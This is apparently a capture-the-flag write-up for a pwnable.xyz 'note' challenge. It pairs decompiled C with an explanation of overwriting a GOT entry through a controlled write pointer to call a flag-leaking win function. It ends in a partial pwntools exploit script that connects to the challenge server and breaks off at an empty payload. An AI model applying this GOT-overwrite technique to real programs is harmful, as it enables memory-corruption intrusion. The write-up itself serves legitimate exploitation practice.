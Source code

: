 ```c
        v3 = read_int32();
        if ( v3 != 1 )
          break;
        edit_note();
      }
      if ( v3 != 2 )
        break;
      edit_desc();
    }
    if ( !v3 )
      break;
    puts("Invalid");
  }
  return 0;
}
```
``edit_note``:
```c
void edit_note()
{
  int v0; // ST04_4
  void *buf; // ST08_8

  printf("Note len? ");
  v0 = read_int32();
  buf = malloc(v0);
  printf("note: ");
  read(0, buf, v0);
  strncpy(s, (const char *)buf, v0);
  free(buf);
}
```
``edit_desc``:
```c
// buf = 0x6014a0 <s+32>
ssize_t edit_desc()
{
  if ( !buf )
    buf = malloc(0x20uLL);
  printf("desc: ");
  return read(0, buf, 0x20uLL);
}
```
``win`` is just a function that leaks the content of flag file.

Since there is such function like ``win``, our objective here is to somehow change the program flow and make the program call ``win``.
Sadly, overflowing the stack to change the return address is not possible.

However, since we could change where ``edit_desc`` writes to, we could achieve above goal by overwriting a function's address in got table.

exploit code:
```python
from pwn import *

binary = ELF('./note')
r = remote('svc.pwnable.xyz', 30016)
r.recvuntil('> ')
r.sendline('1')
r.recvuntil('? ')
r.sendline('40')
r.recvuntil(': ')

payload = ''
```